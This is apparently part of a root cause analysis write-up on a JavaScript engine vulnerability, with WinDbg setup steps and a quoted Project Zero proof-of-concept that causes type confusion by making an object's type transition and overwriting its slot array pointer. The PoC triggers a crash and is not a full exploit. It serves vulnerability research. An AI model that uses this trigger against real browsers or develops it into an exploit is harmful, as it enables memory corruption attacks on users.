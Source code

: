 Install the latest Windbg preview from the [Microsoft Store](https://www.microsoft.com/store/productId/9PGJGD53TN86).

Don’t forget to run it with Administrator privileges.

![Windbg Preview](/images/rca-report-website-html.jpg)

---

## Root Cause Analysis

### [PoC](https://bugs.chromium.org/p/project-zero/issues/detail?id=1703&desc=2):

```javascript
function opt(o, c, value) {
    o.b = 1;
    class A extends c { // may transition the object
    }
    o.a = value; // overwrite slot array pointer
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, (function () {}), {});
    }

    let o = {a: 1, b: 2};
    let cons = function () {};

    cons.prototype = o; // causes "class A extends c" to transition the object type
    opt(o, cons, 0x1234);
    print(o.a); // access the slot array pointer resulting in a crash
}

main();
```
